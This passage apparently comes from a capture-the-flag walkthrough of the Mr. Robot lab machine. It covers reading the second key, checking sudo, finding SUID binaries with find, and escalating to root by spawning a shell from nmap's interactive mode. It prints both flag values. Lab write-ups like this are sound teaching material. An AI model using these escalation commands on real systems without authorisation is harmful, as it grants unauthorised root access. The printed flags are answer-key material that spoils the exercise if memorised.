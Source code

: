 * Read `/home/robot/key-2-of-3.txt`:

```
822c73956184f694993bede3eb39f959
```

`robot` had no sudo privileges (`sudo -l` returned user may not run sudo).

---



![mr.robot9](assets/mr.robot/9.png)

## 9. Privilege escalation (root)


* Found SUID binaries with `find / -perm -u=s 2>/dev/null`, notably `/usr/local/bin/nmap`.
* Used `nmap --interactive` and invoked `!sh` from its interactive prompt to spawn a root shell:

```bash
nmap --interactive
# at nmap prompt: !sh
# whoami -> root
cat /root/key-3-of-3.txt
# 04787ddef27c3dee1ee161b21670b4e4
```
